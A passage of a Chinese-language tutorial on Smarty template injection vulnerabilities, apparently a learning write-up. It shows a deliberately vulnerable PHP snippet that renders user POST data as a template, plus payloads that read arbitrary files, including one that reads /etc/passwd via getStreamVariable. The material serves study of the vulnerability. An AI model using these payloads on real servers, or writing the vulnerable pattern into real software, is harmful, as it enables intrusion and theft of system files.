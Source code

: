 Smarty模板引擎漏洞详解
==============

前言
--

前些时间把Twig模板引擎注入讲述完了，本篇记录了关于Smarty模板引擎注入及相关漏洞的学习。

基础知识
----

在阅读本篇之前，我们需要阅读官方文档  
[Smarty3 手册 | Smarty](https://www.smarty.net/docs/zh_CN/)

引入
--

在详细解释有关Smarty模板引擎漏洞之前，我们在做一些小铺垫，我们来简单说明以下有关Smarty的SSTI的具体内容基本内容

我下面的例子来说明

```php
<?php
require_once('./libs/' . 'Smarty.class.php');
$smarty = new Smarty();
$ip = $_POST['data'];
$smarty->display('string:'.$ip);
?>
```

这里例子虽然简单，但是也基本满足我们对有SSTI此时的需求

常见攻击方法
------

### 任意文件读取

漏洞成因由{include}标签所致，当我们设置成'string:'我们include的文件就会被单纯的输出文件的内容

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-92d7015225a38c215075d48e5ae786499e22f0b3.png)

```php
string:{include file='D:\flag.txt'}
```

### 访问类的静态成员或静态方法。

在Smarty模板引擎中，`self`关键字代表当前类本身，通常用于访问类的静态成员或静态方法。

#### getStreamVariable()

先看payload

```php
{self::getStreamVariable("file:///etc/passwd")}
```

getStreamVariable() 可以利用这个方法来读文件
